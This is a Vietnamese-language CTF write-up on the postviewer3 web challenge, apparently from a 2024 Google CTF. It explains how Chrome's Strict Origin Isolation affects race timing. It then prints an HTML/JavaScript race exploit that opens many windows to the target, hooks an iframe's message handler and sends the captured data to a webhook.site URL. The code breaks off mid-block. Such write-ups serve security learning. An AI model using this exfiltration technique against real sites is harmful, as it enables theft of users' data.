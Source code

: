 ### StrictOriginIsolation

Ta thấy chrome của bot enable một feature flag 

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/08d4bfff-0979-41eb-a0f0-098c63f7e22d)

> Strict Origin Isolation would improve security by ensuring different origins do not share a process with each other, but it poses a risk of increased resource usage

> When enabled, Chrome opens up a dedicated process for each website you access and creates a strict wall between them that keeps them separate. This creates a dedicated sandbox for each website where neither they can access information of other websites nor their information could be accessed by other websites.

Ngắn gọn là mỗi website ta access sẽ được render trong một process riêng biệt, đây là một mitigation đối với meltdown attack, mitigation sẽ đi với các drawback nhất định và ở trường hợp này là CPU usage và thời gian xử lý, các tác vụ sẽ cần thời gian lâu hơn để thực và do đó, so với khi không enable feature này thì khi thực hiện race ta sẽ cần nới lỏng thời gian sleep đi, và nếu ta để ý thì

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/5a75e7d7-a53b-4362-8f5c-eb402ed30cd5)

Có một lệnh `sleep` tưởng như vô nghĩa được chèn vào giữa đoạn xử lý hash, thật ra thì một lệnh này là đã đủ và có lẽ là không cần ta phải thêm một lệnh sleep nào khác trong exploit nữa, có lẽ là intended của tác giả để làm race dễ dính hơn. 

### Exploit

```html
<html>
    <iframe></iframe>
    <script src="a.js"></script>
    <script>
        const the_hash = `postviewerhttps://75a7-203-167-11-246.ngrok-free.app`;
        // const the_hash = `file-ff582564efb8cb8229f1db607c35ae35c4b59e27`;
        const payload = `

        function sleep(ms) {
            return new Promise(resolve => setTimeout(resolve, ms));
        }

        async function race(win) {
            while (true) {
                try {
                    await sleep(800);
                    win.location.replace("https://postviewer3-web.2024.ctfcompetition.com/#0")
                    win.location.replace("https://postviewer3-web.2024.ctfcompetition.com/#${the_hash}")
                    await sleep(0);
                    // console.log(win.frames[0].location.href)
                    win.frames[0].window.onmessage = (e) => {
                        // location.href = "https://webhook.site/cec28ede-90d8-41a4-9ef6-4f811d83e750/?c="+123
                        var enc = new TextDecoder("utf-8");
                        location.href = "https://webhook.site/cec28ede-90d8-41a4-9ef6-4f811d83e750/?c="+enc.decode(e.data.body)
                    }
                } catch (e) {}
            }
        }

        for (let i = 0; i < 100; i++) {
            race(open("https://postviewer3-web.2024.ctfcompetition.com/"));
        }
        
        `
```